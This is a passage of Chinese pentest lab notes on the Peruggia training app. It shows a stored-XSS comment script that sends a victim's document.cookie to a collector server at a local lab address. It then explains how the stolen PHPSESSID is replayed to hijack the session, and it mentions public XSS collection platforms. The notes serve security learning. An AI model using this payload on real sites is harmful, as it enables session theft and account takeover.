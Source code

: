 **mark：**刚开始的时候文件无法添加，也无法读写，尝试了修改路径，也尝试修改文件夹读写权限，也不行。
问题查找关键字是http服务文件写入失败。最终的解释是文件所有权的权限，而非读写权限,而在将目录归属权修改之后，就能创建和读写。

```shell
// 修改owner权限
chown -R 路径
// 修改读写模式
chmod 777 路径
```

3. 在`/peruggia/`中，点击`comment on this picture`添加评论
4. 加入xss代码,点击post

```html
<script> 
    var xmlHttp = new XMLHttpRequest(); 
    xmlHttp.open( "GET", "http://192.168.56.1/savecookie.php?cookie=" + document.cookie, true ); 
    xmlHttp.send( null ); 
</script>
```

这里网上有不少xss的共享平台。只需要开通，然后将提供的代码放到xss攻击的地方，在访问的时候，就会将需要的信息传到这些共享平台。

5. 当受害者登录状态访问该页面，xss就会获取cookie并且请求收集服务器地址的php写入cookie
6. 根据cookie文件内容，使用`Cookies Manager+`，编辑`PHPSESSID`cookie，然后就能使用受害者身份登录。



##### 工作原理

简单来说，我们使用应用中的 XSS 漏洞来将会话 Cookie 发送给远程服务器，通过 JavaScript HTTP 请求。这个服务器被配置用于储存会话 Cookie，之后，我们获得一个会话 ID，并把它移植到不同的浏览器中来劫持验证用户的会话。下面，我们来看看每一步如何工作。

我们编写的 PHP 文件用于在 XSS 攻击执行时保存收到的 COokie。

我们输入的评论是一个脚本，使用JavaScript 的XMLHttpRequest 对象来向我们的恶意服务器发送 HTTP 请求，这个请求由两步构建：

```js
xmlHttp.open( "GET", "http://192.168.56.1/savecookie.php?cookie=" + document.cookie, true );
```

我们使用 GET 方法打开请求，向`http://192.168.56.1/savecookie.php` URL添加叫做`cookie`的参数，它的值储存在`document.cookie`中，它是 JavaScript 中储存cookie值的变量。最后的参数设置为`true`，告诉浏览器这是异步请求，这意味着它不需要等待响应。

```js
xmlHttp.send( null )
```

最后的指令将请求发送给服务器。

在管理员登录并查看包含我们所发送评论的页面之后，脚本会执行，并且管理员的会话 cookie 就储存在我们的服务器中了。

最后，一旦我们获得了有效用户的会话 cookie，我们可以在浏览器中替换我们自己的会话 cookie，之后重新加载页面来执行操作，就像我们是这个用户一样。





### 7. 逐步执行基本的 SQL 注入

SQL注入相关的看暗月目录下的SQL注入，还有靶场实践下的`Sqli-labs笔记`。
